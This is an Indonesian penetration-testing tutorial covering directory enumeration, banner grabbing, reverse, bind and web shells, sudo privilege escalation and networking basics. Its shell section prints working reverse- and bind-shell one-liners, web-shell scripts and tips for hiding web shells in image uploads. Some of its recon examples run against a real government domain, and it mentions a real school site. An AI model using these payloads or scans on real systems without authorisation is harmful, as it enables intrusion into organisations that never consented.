Dengan menggunakan `GoBuster` atau alat serupa, kita dapat secara sistematis memeriksa struktur direktori web server dan berpotensi menemukan titik masuk yang berguna untuk eksploitasi lebih lanjut. Ini adalah langkah penting dalam pengujian penetrasi aplikasi web, karena kerentanan seringkali tersembunyi.

### Directory/File Enumeration
GoBuster adalah alat serbaguna yang memungkinkan untuk melakukan brute-forcing DNS, vhost, dan direktori. Alat ini memiliki fungsionalitas tambahan, seperti enumerasi bucket AWS S3 publik. Untuk tujuan modul ini, kita tertarik pada mode brute-forcing direktori (dan file) yang ditentukan dengan switch `dir`. Mari kita jalankan pemindaian sederhana menggunakan daftar kata `dirb common.txt`.
```shell
Akmal7450@Linux$ gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/12/11 21:47:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wordpress (Status: 301)
===============================================================
2024/12/11 21:47:46 Finished
===============================================================
```
Kode status HTTP 200 mengungkapkan bahwa permintaan sumber daya berhasil, sedangkan kode status HTTP 403 menunjukkan bahwa kita dilarang mengakses sumber daya. Kode status 301 menunjukkan bahwa kita sedang dialihkan, yang bukan merupakan kasus kegagalan. Ada baiknya kita membiasakan diri dengan berbagai kode status HTTP, yang dapat ditemukan di [sini](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status). 

Pemindaian berhasil diselesaikan, dan ini mengidentifikasi WordPress di `/wordpress`. WordPress adalah CMS (Content Management System) yang paling umum digunakan dan memiliki potensi permukaan serangan yang sangat besar. Dalam hal ini, mengunjungi `http://10.10.10.121/wordpress` di browser mengungkapkan bahwa WordPress masih dalam mode pengaturan, yang akan memungkinkan kita mendapatkan eksekusi kode jarak jauh (RCE) di server.
gw bakal kasih contoh nya di website sekolah SMAN3


#### DNS Subdomain Enumeration
Selain direktori dan file, bisa jadi ada sumber daya penting yang dihosting di subdomain, seperti panel admin atau aplikasi dengan fungsionalitas tambahan yang dapat dieksploitasi (kayak API). Kita dapat menggunakan GoBuster untuk melakukan enumerasi subdomain yang tersedia dari domain tertentu dengan menggunakan flag `dns` untuk menentukan mode DNS., tapi gw nyaranin banget buat nyoba Sublist3r, Subfinder, atau Sudomy, karna ini sering kita pake buat nemuin banyak subdomain dari 1 Nama domain.

dan sebelum lanjut jangan lupa untuk mendowload direktori(Wordlist) dengan mengkloning repistori **Seclist**
#### Install SecLists

Cloning repistori

```shell
Akmal7450@Linux$ git clone https://github.com/danielmiessler/SecLists
```

Install lewat Linux apt

```shell
Akmal7450@Linux$ sudo apt install seclists -y
```

## Web Enumeration Tips

#### Banner Grabbing / Web Server Headers
Di bagian sebelumnya, kita membahas banner grabbing untuk tujuan umum. Header server web memberikan gambaran yang baik tentang apa yang dihosting di server web. Mereka dapat mengungkapkan kerangka kerja aplikasi tertentu yang digunakan, opsi otentikasi, dan apakah server kehilangan opsi keamanan penting atau telah salah konfigurasi. Kita dapat menggunakan `cURL` untuk mengambil informasi header server dari baris perintah. cURL adalah tambahan penting lainnya untuk toolkit pengujian penetrasi kita, dan disarankan untuk membiasakan diri dengan **banyak** opsinya(Saking fleksibelnya ada banyak opsinya yang bisa ngebantu lu buat ngereturn data di website dari source code,kode json, semuanya dah).

```shell
Akmal7450@Linux$ curl -IL https://www.inlanefreight.com

HTTP/1.1 200 OK
Date: Fri, 18 Dec 2024 22:24:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Link: <https://www.inlanefreight.com/>; rel=shortlink
Content-Type: text/html; charset=UTF-8
```

Alat praktis lainnya adalah `EyeWitness` atau `GoWitness`, yang dapat digunakan untuk mengambil tangkapan layar dari aplikasi web target, mengambil sidik jarinya, dan mengidentifikasi kemungkinan kredensial default.

#### Whatweb
Kita dapat mengekstrak versi web server, kerangka kerja pendukung, dan aplikasi menggunakan alat baris perintah `whatweb`. Informasi ini dapat membantu kita menentukan teknologi yang digunakan dan mulai mencari potensi kerentanan.

```ls
Akmal7450@Linux$ whatweb sumedangkab.go.id

http://sumedangkab.go.id [302 Found] Country[INDONESIA][ID], HTML5, HTTPServer[LiteSpeed], IP[103.8.238.165], LiteSpeed, RedirectLocation[https://sumedangkab.go.id/], Title[302 Found][Title element contains newline(s)!]
https://sumedangkab.go.id/ [403 Forbidden] Country[INDONESIA][ID], HTML5, HTTPServer[LiteSpeed], IP[103.8.238.165], LiteSpeed, Title[403 Forbidden][Title element contains newline(s)!], UncommonHeaders[alt-svc]
```

#### Robots.txt
Sangat umum bagi situs web untuk memiliki file `robots.txt`, yang tujuannya adalah untuk menginstruksikan perayap web mesin pencari seperti Googlebot, sumber daya mana yang dapat dan tidak dapat diakses untuk pengindeksan. File `robots.txt` dapat memberikan informasi berharga seperti lokasi file pribadi dan halaman admin. Dalam kasus ini, kita melihat bahwa file `robots.txt` berisi dua entri yang tidak diizinkan.


#### Source Code
Perlu juga memeriksa Source code untuk setiap halaman web yang kita temui. Kita bisa menekan [CTRL + U] untuk membuka mode developer di browser. Contoh ini bakal nunjukinkomentar pengembang yang berisi kredensial untuk akun uji, yang dapat digunakan untuk masuk ke situs web.



---

# Types of Shells

Setelah kita mengompromikan sistem dan mengeksploitasi kerentanan untuk mengeksekusi perintah pada host yang disusupi dari jarak jauh, biasanya kita memerlukan metode untuk berkomunikasi dengan sistem agar tidak terus-menerus mengeksploitasi kerentanan yang sama untuk mengeksekusi setiap perintah. Untuk melakukan enumerasi pada sistem atau mengambil kendali lebih lanjut atasnya atau di dalam jaringannya, kita memerlukan koneksi yang andal yang memberi kita akses langsung ke shell sistem, yaitu, **Bash** atau **PowerShell**, sehingga kita dapat menyelidiki sistem jarak jauh secara menyeluruh untuk langkah selanjutnya.

Salah satu cara untuk terhubung ke sistem yang dikompromikan adalah melalui protokol jaringan, seperti **SSH** untuk Linux atau **WinRM** untuk Windows, yang akan memungkinkan kita login jarak jauh ke sistem yang dikompromikan. Namun, kecuali kita mendapatkan satu set kredensial login yang berfungsi, kita tidak akan dapat menggunakan metode ini tanpa mengeksekusi perintah pada sistem jarak jauh terlebih dahulu, untuk mendapatkan akses ke layanan ini.

Metode lain untuk mengakses host yang dikompromikan untuk kontrol dan eksekusi kode jarak jauh adalah melalui shells.

Seperti yang telah dibahas sebelumnya di atas awal-awal, ada tiga jenis utama shells: Reverse Shell, Bind Shell, dan Web Shell. Masing-masing shell ini memiliki metode komunikasi yang berbeda dengan kita untuk menerima dan mengeksekusi perintah kita.

| Type of Shell   | Method of Communication                                                                                                                     |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `Reverse Shell` | Konek balik ke system kita lewat koneksi reverse shell                                                                                      |
| `Bind Shell`    | nunggu kita buat konek ke situ dan menjalankan perintah                                                                                     |
| `Web Shell`     | Web Shell berkomunikasi melalui web server, menerima perintah kita melalui parameter HTTP, mengeksekusinya, dan mencetak kembali outputnya. |
sekarang ayo kita bahas lebih dalam ketiga shell ini

## Reverse Shell
Reverse Shell adalah jenis shell yang paling umum, karena ini adalah metode tercepat dan termudah untuk mendapatkan kontrol atas host yang dikompromikan. Setelah kita mengidentifikasi kerentanan pada host jarak jauh yang memungkinkan eksekusi kode jarak jauh, kita dapat memulai listener netcat pada mesin kita yang mendengarkan pada port tertentu, katakanlah port 1234. Dengan listener ini di tempatnya, kita dapat menjalankan perintah reverse shell yang menghubungkan shell sistem jarak jauh, yaitu, Bash atau PowerShell ke listener netcat kita, yang memberi kita koneksi terbalik melalui sistem jarak jauh.
#### Netcat Listener
Langkah pertama adalah memulai listener netcat pada port yang kita pilih:
```bash
Akmal7450@Linux$ nc -lvnp 1234

listening on [any] 1234 ...
```
Flag yang kita gunakan diatas adalah sebagai berikut:

| Flag      | Description                                                                            |
| --------- | -------------------------------------------------------------------------------------- |
| `-l`      | Mode mendengarkan, untuk menunggu koneksi terhubung ke kita.                           |
| `-v`      | Mode verbose, sehingga kita tahu kapan kita menerima koneksi.                          |
| `-n`      | Menonaktifkan resolusi DNS dan hanya terhubung dari/ke IP, untuk mempercepat koneksi.  |
| `-p 1234` | Nomor port yang didengarkan oleh `netcat`, dan koneksi terbalik harus dikirim ke sana. |
Sekarang kita memiliki listener **netcat** yang menunggu koneksi, kita dapat mengeksekusi perintah reverse shell yang terhubung ke kita.
#### Connect Back IP
Namun, pertama-tama, kita perlu menemukan IP sistem kita untuk mengirim koneksi terbalik kembali ke kita. Kita dapat menemukan IP kita dengan perintah berikut:
```shell
Akmal7450@Linux]$ ip a
```
atau
```shell
Akmal7450@Linux]$ ifconfig
```
Kedua perintah ini akan menampilkan informasi tentang antarmuka jaringan lu, termasuk alamat IP lu. Cari baris yang mengatakan `inet` atau `inet addr`, diikuti dengan alamat IP lu. Alamat IP ini adalah yang bakal lu pake dalem perintah reverse shell lu buat terhubung balik ke listener **netcat** lu.

#### Reverse Shell Command
Perintah yang kita jalankan tergantung pada sistem operasi apa yang dijalankan oleh host yang disusupi, yaitu, Linux atau Windows, dan aplikasi dan perintah apa yang dapat kita akses. Halaman [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) memiliki daftar lengkap perintah reverse shell yang dapat kita gunakan yang mencakup berbagai opsi tergantung pada host kita yang disusupi.

Perintah reverse shell tertentu lebih dapat diandalkan daripada yang lain dan biasanya dapat dicoba untuk mendapatkan koneksi reverse shell. Perintah di bawah ini adalah perintah yang dapat diandalkan yang dapat kita gunakan untuk mendapatkan koneksi reverse shell, dimana bash untuk host Linux dan Powershell untuk Host Windows.

**Bash**:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

**Bash:**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

**Powershell:**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
Kita dapat memanfaatkan eksploit yang kita miliki untuk host yang udah di hack untuk menjalankan salah satu perintah di atas, misalnya, melalui eksploitasi Python atau modul Metasploit, untuk mendapatkan koneksi reverse shell. Setelah kita melakukannya, kita akan menerima koneksi di listener netcat kita:
```bash
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Seperti yang bisa kita lihat, setelah kita menerima koneksi pada listener netcat kita, kita bisa mengetik perintah kita dan langsung mendapatkan outputnya kembali, tepat di mesin kita.

**Reverse Shell** sangat berguna ketika kita ingin mendapatkan koneksi yang cepat ke host kita yang dikompromikan. Namun, Reverse Shell bisa sangat rapuh. Setelah perintah reverse shell dihentikan, atau jika kita kehilangan koneksi karena alasan apa pun, kita harus menggunakan eksploit dari awal untuk menjalankan kembali perintah reverse shell untuk mendapatkan kembali akses kita.

## Bind Shell
Jenis shell lainnya adalah Bind Shell. Tidak seperti Reverse Shell yang terhubung ke kita, kita harus terhubung ke Bind Shell pada port pendengar target.

Setelah kita mengeksekusi Perintah Bind Shell, ia akan mulai mendengarkan pada port di host jarak jauh dan mengikat shell host tersebut, yaitu, Bash atau PowerShell, ke port tersebut. Kita harus terhubung ke port itu dengan netcat, dan kita akan mendapatkan kontrol melalui shell pada sistem itu.

#### Bind Shell Command
Sekali lagi, kita dapat memanfaatkan [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) The Things untuk menemukan perintah yang tepat untuk memulai bind shell kita.

:::note
> kita akan memulai koneksi Listener pada port '1234' pada host jarak jauh, dengan IP '0.0.0.0' sehingga kita dapat terhubung ke sana dari mana saja.
:::

Berikut ini adalah contoh perintahnya kek yang diatas:

**bash**:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

**python:**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**powershell:**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Netcat Connection
sama kyak sebelumnnya kalau kita konek bakal kyak gini:
```bash
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Seperti yang bisa kita lihat, kita langsung masuk ke sesi bash dan dapat berinteraksi dengan sistem target secara langsung. Tidak seperti Reverse Shell, jika kita memutuskan koneksi kita ke bind shell karena alasan apa pun, kita dapat terhubung kembali ke sana dan mendapatkan koneksi lain segera. Namun, jika perintah bind shell dihentikan karena alasan apa pun, atau jika host jarak jauh di-reboot, kita masih akan kehilangan akses kita ke host jarak jauh dan harus mengeksploitasinya lagi untuk mendapatkan akses.


## Web Shell

Jenis shell terakhir yang kita miliki adalah Web Shell. Web Shell biasanya adalah skrip web, yaitu PHP atau ASPX, yang menerima perintah kita melalui parameter permintaan HTTP seperti parameter permintaan GET atau POST, menjalankan perintah kita, dan mencetak outputnya kembali pada halaman web.

#### Writing a Web Shell
Pertama-tama, kita perlu menulis web shell kita yang akan mengambil perintah kita melalui permintaan GET, mengeksekusinya, dan mencetak outputnya kembali. Skrip web shell biasanya merupakan one-liner yang sangat pendek dan dapat dihafal dengan mudah. Berikut ini adalah beberapa skrip web shell pendek yang umum untuk bahasa web umum:

**php**:
```php
<?php system($_REQUEST["cmd"]); ?>
```

**jsp:**
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**asp:**
```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell
seperti yang lu pernah liat di status gw,gw nemuin webshell di dalam bentuk foto,kita perlu menempatkan skrip web shell kita ke dalam direktori web (webroot) host jarak jauh untuk menjalankan skrip melalui browser web. Ini bisa dilakukan melalui kerentanan dalam fitur unggah, yang akan memungkinkan kita untuk menulis salah satu shell kita ke sebuah file, misalnya `shell.php` dan mengunggahnya, lalu mengakses file yang diunggah untuk mengeksekusi perintah biasanya ini diakali oleh seorang peretas untuk memasukkan webshell di dalam sebuah file berbentuk foto untuk melewati fitur keamanan dalam mengupload.

Namun, jika kita hanya memiliki eksekusi perintah jarak jauh melalui eksploitasi, kita dapat menulis shell kita langsung ke webroot untuk mengaksesnya melalui web. Jadi, langkah pertama adalah mengidentifikasi di mana webroot berada. Berikut ini adalah webroot default untuk web server umum:

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
setelah kita udah nulis webshell kita ,kita bisa coba akses mau itu lewat **cUrl** ,atau aksesnya langsung ke direktori website nya dibrowser dan menggunakan command `?cmd=id` untuk execute id command:



atau menggunakan **cURL**
```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Seperti yang bisa kita lihat, kita dapat terus mengubah command untuk mendapatkan output. Keuntungan besar dari web shell adalah ia dapat melewati batasan firewall yang ada, karena tidak membuka koneksi baru pada port melainkan berjalan pada port web 80 atau 443, atau port apapun yang digunakan aplikasi web. Keuntungan besar lainnya adalah jika host yang dikompromikan di-reboot, web shell akan tetap ada, dan kita dapat mengaksesnya serta mendapatkan eksekusi command tanpa mengeksploitasi host jarak jauh lagi.

Di sisi lain, web shell tidak se interaktif reverse shell dan bind shell karena kita harus terus meminta URL yang berbeda untuk mengeksekusi command kita. Namun, dalam kasus ekstrem, dimungkinkan untuk membuat kode skrip Python untuk mengotomatiskan proses ini dan memberi kita web shell semi-interaktif langsung di terminal kita,dan ada banyak jenis webshell yang bertebaran di diluar dan bisa kia download langsung secara gratis,seperti marijuana,indosec,dan webshell lainnya.


---

# Privilege Escalation (Yang paling gw benci)

Akses awal kita ke server jarak jauh biasanya dalam konteks pengguna dengan hak istimewa rendah(**Low Privilage**), yang tidak akan memberi kita akses penuh atas sistem. Untuk mendapatkan akses penuh, kita perlu menemukan kerentanan internal/lokal yang akan meningkatkan hak istimewa kita menjadi pengguna root di Linux atau pengguna administrator/SYSTEM di Windows. Mari kita bahas beberapa metode umum untuk meningkatkan hak istimewa kita.

## PrivEsc Checklists
Setelah mendapatkan akses awal ke suatu sistem, kita ingin melakukan enumerasi secara menyeluruh untuk menemukan potensi kerentanan yang bisa dieksploitasi untuk mendapatkan tingkat hak istimewa yang lebih tinggi(**High Privilage**). Kita dapat menemukan banyak daftar periksa (checklist) dan cheat sheet online yang berisi kumpulan pemeriksaan yang dapat kita jalankan dan perintah untuk menjalankan pemeriksaan tersebut. Salah satu sumber yang sangat baik adalah [HackTricks](https://book.hacktricks.xyz), yang memiliki daftar periksa yang sangat baik untuk Privilege Escalation lokal baik di [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)maupun [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation). Repositori lain yang sangat baik adalah [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), yang juga memiliki daftar untuk [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) dan [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

## User Privileges
Aspek penting lainnya yang perlu diperhatikan setelah mendapatkan akses ke server adalah hak istimewa yang tersedia untuk pengguna yang kita akses. Jika kita diizinkan untuk menjalankan perintah tertentu sebagai root (atau sebagai pengguna lain), kita mungkin dapat meningkatkan hak istimewa kita menjadi pengguna root/system atau mendapatkan akses sebagai pengguna yang berbeda. Berikut adalah beberapa cara umum untuk mengeksploitasi hak istimewa pengguna tertentu:
1. Sudo
2. SUID
3. Windows Token Privileges
Perintah **sudo** di Linux memungkinkan pengguna untuk menjalankan perintah sebagai pengguna lain. Biasanya digunakan untuk mengizinkan pengguna dengan hak istimewa rendah (Low Privilage) untuk menjalankan perintah sebagai root tanpa memberi mereka akses ke pengguna root. Ini umumnya dilakukan karena perintah tertentu hanya dapat dijalankan sebagai root (seperti tcpdump) atau untuk mengizinkan pengguna mengakses direktori tertentu yang hanya dapat diakses oleh root. Kita dapat memeriksa hak istimewa sudo yang kita miliki dengan perintah `sudo -l`:
```shell
Akmal7450@Linux$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```

Output di atas menunjukkan bahwa kita bisa menjalankan semua perintah dengan sudo, yang memberi kita akses penuh, dan kita bisa menggunakan perintah su dengan sudo untuk beralih ke pengguna root.

```shell
sudo su -

[sudo] password for user1:
whoami
root
```

Perintah di atas memerlukan kata sandi untuk menjalankan perintah apapun dengan sudo. Ada beberapa situasi di mana kita mungkin diizinkan untuk menjalankan aplikasi tertentu, atau semua aplikasi, tanpa harus memberikan kata sandi.

```shell
sudo -l

    (user : user) NOPASSWD: /bin/echo
```

Entri **NOPASSWD** menunjukkan bahwa perintah /bin/echo dapat dijalankan tanpa kata sandi. Ini akan berguna jika kita mendapatkan akses ke server melalui kerentanan dan tidak memiliki kata sandi pengguna. Karena tertulis "user", kita dapat menjalankan sudo sebagai pengguna tersebut dan bukan sebagai root. Untuk melakukannya, kita dapat menentukan pengguna dengan `-u user`:
```shell
sudo -u user /bin/echo Hello World!

    Hello World!
```
Setelah menemukan aplikasi tertentu yang bisa kita jalankan dengan sudo, kita bisa mencari cara untuk mengeksploitasinya agar mendapatkan shell sebagai pengguna root. [GTFOBins](https://gtfobins.github.io) berisi daftar perintah dan bagaimana cara mengeksploitasinya melalui **sudo**. Kita dapat mencari aplikasi yang memiliki hak istimewa **sudo**, dan jika ada, [GTFOBins](https://gtfobins.github.io) mungkin memberi tahu kita perintah yang tepat yang harus kita jalankan untuk mendapatkan akses root menggunakan hak istimewa **sudo** yang kita miliki.

[LOLBAS](https://lolbas-project.github.io/#) juga berisi daftar aplikasi Windows yang mungkin dapat kita manfaatkan untuk melakukan fungsi-fungsi tertentu, seperti mengunduh file atau menjalankan perintah dalam konteks pengguna yang memiliki hak istimewa lebih tinggi.


---

# Networking Overview (Akmal Recomendation easy)

Jaringan memungkinkan dua komputer untuk berkomunikasi satu sama lain. Ada berbagai macam topologi (mesh/tree/star), media (ethernet/fiber/coax/wireless), dan protokol (TCP/UDP/IPX) yang dapat digunakan untuk memfasilitasi jaringan. Penting bagi para profesional keamanan untuk memahami jaringan karena ketika jaringan gagal, kesalahannya mungkin tidak terlihat, menyebabkan kita melewatkan sesuatu.

Membangun jaringan besar dan datar tidak terlalu sulit, dan bisa menjadi jaringan yang andal, setidaknya secara operasional. Namun, jaringan datar seperti membangun rumah di sebidang tanah dan menganggapnya aman karena kita punya kunci di pintu rumahnya. Dengan membuat banyak jaringan yang lebih kecil dan menghubungkannya, kita dapat menambahkan lapisan pertahanan. Bergerak di sekitar jaringan nggak sulit, tetapi melakukannya dengan cepat dan diam-diam adalah hal yang sulit dan akan memperlambat penyerang. Kembali ke skenario rumah, mari kita lihat contoh-contoh berikut:

**Contoh No. 1** Membangun jaringan yang lebih kecil dan menempatkan Daftar Kontrol Akses di sekitarnya seperti menempatkan pagar di sekitar batas properti yang menciptakan titik masuk dan keluar tertentu. Ya, penyerang bisa melompati pagar(Alias FIrewall btw), tetapi ini terlihat mencurigakan dan tidak umum, sehingga dapat dengan cepat terdeteksi sebagai aktivitas berbahaya. Mengapa jaringan printer berkomunikasi dengan server melalui HTTP?

**Contoh No. 2** Meluangkan waktu untuk memetakan dan mendokumentasikan tujuan setiap jaringan seperti menempatkan lampu di sekitar properti, memastikan semua aktivitas dapat dilihat. Mengapa jaringan printer berkomunikasi dengan internet?

**Contoh No. 3** Memiliki semak-semak di sekitar jendela adalah penghalang bagi orang yang mencoba membuka jendela. Sama seperti Sistem Deteksi Intrusi seperti Suricata atau Snort adalah penghalang untuk menjalankan pemindaian jaringan. Mengapa pemindaian port datang berasal dari jaringan printer?

Contoh-contoh ini mungkin terdengar konyol, dan merupakan akal sehat untuk memblokir printer agar tidak melakukan semua hal di atas. Namun, jika printer berada di "jaringan datar /24" dan mendapatkan alamat DHCP, bisa jadi sulit untuk menempatkan jenis pembatasan ini pada mereka.

**Waktunya cerita -Kebiasaan Seorang Pentester**

Kebanyakan jaringan menggunakan subnet /24, sehingga banyak Pentester yang langsung menetapkan subnet mask ini (255.255.255.0) tanpa memeriksa terlebih dahulu. Jaringan /24 memungkinkan komputer untuk saling berkomunikasi selama tiga oktet pertama dari Alamat IP sama (contoh: 192.168.1.xxx). Mengatur subnet mask ke /25 membagi rentang ini menjadi dua, dan komputer hanya akan dapat berkomunikasi dengan komputer di "setengahnya".

Kami pernah melihat laporan Penetration Test di mana asesor mengklaim bahwa Domain Controller sedang offline, padahal sebenarnya hanya berada di jaringan yang berbeda. Struktur jaringannya kira-kira seperti ini:

- Server Gateway: 10.20.0.1/25
- Domain Controller: 10.20.0.10/25
- Client Gateway: 10.20.0.129/25
- Client Workstation: 10.20.0.200/25

## Basic Information
Mari kita lihat diagram tingkat tinggi berikut tentang bagaimana pengaturan Kerja Dari Rumah dapat berfungsi.

Seluruh internet pada dasarnya terdiri dari banyak jaringan yang dibagi-bagi, seperti yang ditunjukkan dalam contoh dan ditandai sebagai "Home Network" dan "Company Network". Kita bisa membayangkan jaringan seperti pengiriman surat atau paket yang dikirim oleh satu komputer dan diterima oleh komputer lainnya.

Misalkan kita ingin mengunjungi situs web perusahaan dari "Home Network" kita. Dalam hal ini, kita bertukar data dengan situs web perusahaan yang terletak di "Company Network" mereka.

Seperti halnya mengirim surat atau paket, kita tahu alamat tujuan paket tersebut. Alamat situs web atau Uniform Resource Locator (URL) yang kita masukkan ke dalam browser juga dikenal sebagai Fully Qualified Domain Name (FQDN).
- FQDN (www.sumedangkab.go.id) hanya menentukan alamat "gedung".
- URL ([https://www.sumedangkab.go.id/example?floor=2&office=dev&employee=17]) juga menentukan "lantai", "kantor", "kotak surat" dan "karyawan" yang dituju paket tersebut.
Faktanya adalah kita tau alamatnya, tapi bukan lokasi geografis yang tepat dari alamat tersebut. Dalam situasi ini, kantor pos dapat menentukan lokasi yang tepat, yang kemudian meneruskan paket ke lokasi yang diinginkan. Oleh karena itu, kantor pos kita meneruskan paket kita ke kantor pos utama, yang mewakili Penyedia Layanan Internet (ISP) kita.

Kantor pos yang kita maksud disini adalah router yang kita gunakan untuk terhubung ke "Internet" dalam jaringan.

Begitu kita mengirim paket kita melalui kantor pos kita (router), paket tersebut diteruskan ke kantor pos utama (ISP). Kantor pos utama ini mencari di buku alamat/daftar alamat (Domain Name Service) di mana alamat ini berada dan mengembalikan koordinat geografis yang sesuai (alamat IP). Sekarang setelah kita mengetahui lokasi persis alamat tersebut, paket kita dikirim langsung ke sana melalui penerbangan langsung melalui kantor pos utama kita.

Setelah server web menerima paket kita dengan permintaan tentang tampilan situs web mereka, server web mengirimkan kembali paket tersebut dengan data untuk presentasi situs web melalui kantor pos (router) dari "Company Network" ke alamat pengirim yang ditentukan (alamat IP kita).

### Poin Penting tambahan
- **Web Server:** Server web sebaiknya ditempatkan di DMZ (Demilitarized Zone) karena klien di internet dapat memulai komunikasi dengan situs web, sehingga lebih mungkin untuk dikompromikan. Menempatkannya di jaringan terpisah memungkinkan administrator untuk menempatkan perlindungan jaringan antara server web dan perangkat lain.
- **Workstations:** Workstation sebaiknya berada di jaringan mereka sendiri, dan idealnya, setiap workstation harus memiliki aturan Firewall berbasis Host yang mencegahnya berbicara dengan workstation lain. Jika Workstation berada di jaringan yang sama dengan Server, serangan jaringan seperti **spoofing** atau **man in the middle** menjadi masalah yang lebih besar.
- **Switch and Router:** Switch dan Router sebaiknya berada di "Jaringan Administrasi". Ini mencegah workstation menguping komunikasi antara perangkat ini. Saya sering melakukan Penetration Test dan melihat iklan **OSPF** (Open Shortest Path First). Karena router tidak memiliki jaringan tepercaya, siapa pun di jaringan internal dapat mengirim iklan berbahaya dan melakukan serangan man in the middle terhadap jaringan mana pun.
- **IP Phones:** Telepon IP sebaiknya berada di jaringan mereka sendiri. Dari segi keamanan, ini untuk mencegah komputer **menguping** komunikasi. Selain keamanan, telepon memiliki karakteristik unik di mana latency/lag sangat penting. Menempatkan mereka di jaringan mereka sendiri dapat memungkinkan administrator jaringan untuk memprioritaskan lalu lintas mereka untuk mencegah latency tinggi dengan lebih mudah.
- **Printers:** Printer sebaiknya berada di jaringan mereka sendiri. Ini mungkin terdengar aneh, tetapi hampir tidak mungkin untuk mengamankan printer. Karena cara kerja Windows, jika printer memberi tahu komputer bahwa otentikasi diperlukan selama pekerjaan cetak, komputer itu akan mencoba otentikasi NTLMv2, yang dapat menyebabkan pencurian kata sandi. Selain itu, perangkat ini bagus untuk mempertahankan akses (persistence) dan, secara umum, banyak informasi sensitif dikirim ke mereka.

# Network Types
Setiap jaringan memiliki struktur yang berbeda dan dapat diatur secara individual. Karena alasan ini, apa yang disebut `types` dan `topologies` telah dikembangkan untuk mengategorikan jaringan-jaringan ini. Saat membaca tentang semua jenis jaringan, bisa jadi sedikit membingungkan karena beberapa jenis jaringan juga mencakup jangkauan geografis. Kita jarang mendengar beberapa terminologi ini dalam praktiknya, jadi bagian ini akan dibagi menjadi `Common Terms` dan `Book Terms`.

`Book Terms` baik untuk diketahui, karena ada satu kasus terdokumentasi tentang server email yang gagal mengirimkan email lebih dari 500 mil, tetapi jangan berharap untuk dapat mengucapkannya sesuai permintaan kecuali lu lagi belajar buat ujian jaringan.

#### Common Terminology

| **Network Type**                   | **Definition**                               |
| ---------------------------------- | -------------------------------------------- |
| Wide Area Network (WAN)            | Internet                                     |
| Local Area Network (LAN)           | Internal Networks (Co: Rumah atau Kantor)    |
| Wireless Local Area Network (WLAN) | Internal Networks accessible over Wi-Fi      |
| Virtual Private Network (VPN)      | Connects multiple network sites to one `LAN` |

## WAN
